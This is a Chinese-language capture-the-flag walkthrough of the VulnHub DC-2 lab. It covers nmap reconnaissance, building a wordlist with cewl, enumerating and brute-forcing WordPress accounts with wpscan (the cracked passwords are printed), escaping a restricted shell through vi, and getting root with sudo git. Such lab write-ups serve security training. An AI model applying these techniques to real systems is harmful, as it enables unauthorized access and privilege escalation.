


# DC2-靶机详解

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

## 任务目标、描述
- 拿到5个flag
- 拿到root权限

**靶机地址**
- https://www.vulnhub.com/entry/dc-2,311/


**知识点**
- 字典生成工具 cewl (flag2)
- wpscan (flag2)
- rbash 逃逸 (flag4)
- git 提权 (flag5)

**实验环境**

`环境仅供参考`

- VMware® Workstation 16 Pro
- kali : NAT 模式 192.168.197.128
- 靶机 : NAT 模式 192.168.197.146

---

# flag1

老规矩,先知道对面 IP 才行,使用 nmap 扫描

语法 `nmap -sP <网段>/24`

```bash
nmap -sP 192.168.197.0/24
```


排除法,去掉自己、宿主机、网关, `192.168.197.146` 就是目标了

顺便扫一下端口
```bash
nmap -T5 -A -v -p- 192.168.197.146

    -T5: 指定扫描速度为最快。T5是Nmap的最高速度级别，它表示使用最激 进的扫描技术和最小的延迟。
    -A: 启用操作系统检测、版本检测、脚本扫描和跟踪路径。
    -v: 启用详细输出模式，提供更多的扫描信息。
    -p-: 指定扫描所有的端口，从1到65535之间的所有端口。
    192.168.197.146: 扫描目标的IP地址

这个命令的目的是对指定的IP地址范围进行广泛的扫描，包括所有的端口，并尝试识别目标主机的操作系统和开放的服务版本。这种扫描可能会对网络产生一定程度的负载，因此在进行此类活动时请确保您有权利执行这样的操作，并且不会对网络造成不良影响
```


可以看到,开放了 web 和 ssh 服务

下面开始前先按照信息修改主机 hosts 文件

这里的 kali 进行攻击,修改步骤如下
```bash
echo "192.168.197.146 dc-2" >> /etc/hosts
```
使用这个命令下，Windows环境修改host
```cmd
explorer C:\Windows\System32\drivers\etc\
添加进入host文件
```

然后 web 访问,就可以看到 flag1


翻译
```
你惯用的字词列表可能无法使用，因此，也许你只需要 cewl工具。

密码越多越好，但有时你根本无法赢得所有密码。

以一个身份登录以查看下一个标志。

如果找不到，请以其他身份登录。
```

---

# flag2

flag1 提示了一个工具 cewl,这是个抓取网站信息用于生成密码的工具,估计意思就是让你用这个工具跑个密码表出来

cewl kali 下自带,直接使用就是了
```bash
cewl http://dc-2 -w out.txt

Desc:
这里的out.txt是保存的额密码字典
```


接下来使用一个工具 WPScan,同样 kali 自带
```bash
wpscan --url http://dc-2 --enumerate u
wpscan --url http://dc-2 --passwords out.txt

Desc:
这里提供的是两个 WPScan 工具的命令：

    wpscan --url http://dc-2 --enumerate u: 
    这个命令的目的是扫描位于 http://dc-2 的WordPress网站，并且通过 
     枚举用户来收集关于该WordPress网站的用户信息。具体来说， 
     --enumerate u 参数告诉WPScan枚举用户信息。

    wpscan --url http://dc-2 --passwords out.txt: 
    这个命令的目的是对位于 http://dc-2 的WordPress网站进行密码破解 
     尝试。--passwords out.txt 参数告诉WPScan使用 out.txt 文件中的 
      密码列表进行尝试。
```

爆破结果,存在2个账户


```
Username : jerry
Password : adipiscing

Username : tom
Password : parturient
```
这里可以用dirb工具扫一下有哪些可以登录的页面
```bash
dirb http://dc-2/

找到了 就是这个
http://dc-2/wp-admin/  
```

使用账号 jerry 登录后可以发现 flag2

鸟语：
```
If you can't exploit WordPress and take a shortcut, there is another way.

Hope you found another entry point.
```
说人话
```
不要在搞wordpress了，去找找其他线索、切入点
```

flag 提示,如果 wordpress 打不下来,就得换一个入口

上面使用了 wpscan 进行了扫描和爆破,但是漏洞扫描没有任何结果,因为现在 wpscan 扫描漏洞需要 API Token 的支持,所以需要访问 https://wpvulndb.com/users/sign_up 注册一个账号,获得 API Token
```bash
wpscan --url http://dc-2/ --api-token 这边填你的APIToken
```


我看了一下,大部分需要认证,并且都是 XSS 之类的,靶机这环境根本没用,有一个 WordPress 3.7-5.0 (except 4.9.9) - Authenticated Code Execution 可以试一试,反正也有账号

根据信息,CVE 编号为 CVE-2019-8942、CVE-2019-8943,MSF 里正好有模块,不过其实是不好利用的,因为这个漏洞是通过文件上传造成的,而 jerry 和 tom 都无法上传,只有 admin 有权限修改上传点


---

# flag3

既然打不下来 wordpress ,就换一个,联想到端口扫描出的 7744 SSH 服务,这里可以作为一个入口

使用刚才的爆破出来的两个账号密码去尝试连接一下ssh

爆破结果
```
Username : tom
Password : parturient
```

直接登录
```bash
ssh tom@192.168.197.146 -p 7744
```


看来是个受限制的 shell 环境,rbash,使用自动补全命令 compgen -c

可以看到我们能使用 less 和 vi ,less 查看 flag3
```
Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
```
机翻
```
可怜的老 Tom 总是追随 Jerry。 也许他应该承受自己造成的所有压力。
```

这里提示了之前爆破出的2个 web 用户,会不会 linux 也有这2个用户?查看 passwd 文件
```bash
less /etc/passwd
```


可见 jerry 用户存在,那么下面就是 rbash 逃逸-->提权

---

# flag4

使用 vi 进行逃逸
```bash
vi

:set shell=/bin/sh
:shell

Desc:
    :set shell=/bin/sh：这个命令将 Vi 编辑器的 shell 设
    置为 /bin/sh，这意味着在 Vi 编辑器中执行外部 shell 命
    令时将使用 /bin/sh。
    :shell：这个命令会启动一个新的 shell，让你可以在 Vi
     编辑器之外执行命令。在这个新的 shell 中，你可以执行任
     何标准的 shell 命令，然后通过输入 exit 或者按下  
     Ctrl+D 返回到 Vi 编辑器。
```

更改环境变量,把 `/bin/sh` 目录加进去,不然许多命令不好用
```bash
echo $PATH
export PATH=$PATH:/bin:/usr/bin

Desc:
 echo $PATH：这个命令用于打印当前 shell 中的环境变量 $PATH
  的值。$PATH 是一个用冒号分隔的目录列表，其中包含了系统在
  搜索可执行文件时要查找的目录。每当你输入一个命令时，系统 
   会 在 $PATH 中列出的目录中查找这个命令的可执行文件。

export PATH=$PATH:/bin:/usr/bin：这个命令将当前 $PATH
 的值与 /bin 和 /usr/bin 目录结合起来，并将结果重新分配给
  $PATH。这意味着系统将在 /bin 和 /usr/bin 目录中查找命令
  可执行文件，即使它们不在默认的 $PATH 中
```


ok,现在是正常的 shell 环境了,在提权之前,尝试登录 jerry 用户
```bash
su jerry
```
这里可以看到Jeryy只能使用git 那么答案就很明显了要使用git来最后的提权


```
Good to see that you've made it this far - but you're not home yet.

You still need to get the final flag (the only flag that really counts!!!).

No hints here - you're on your own now.  :-)

Go on - git outta here!!!!
```
机翻
```
很高兴看到你已经做到了这一点-但你还没有回家。

你仍然需要获得最终标志（唯一真正重要的标志！！！）。

这里没有提示-你现在就一个人了。 :-)

继续-git outta here !!!!
```

这里提到了 git,那么就用它提权

---

# flag5


```bash
sudo git -p help config
!/bin/sh
```


```bash
cd
cat final-flag.txt
```

```
 __    __     _ _       _                    _
/ / /\ \ \___| | |   __| | ___  _ __   ___  / \
\ \/  \/ / _ \ | |  / _` |/ _ \| '_ \ / _ \/  /
 \  /\  /  __/ | | | (_| | (_) | | | |  __/\_/
  \/  \/ \___|_|_|  \__,_|\___/|_| |_|\___\/


Congratulatons!!!

A special thanks to all those who sent me tweets
and provided me with feedback - it's all greatly
appreciated.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```
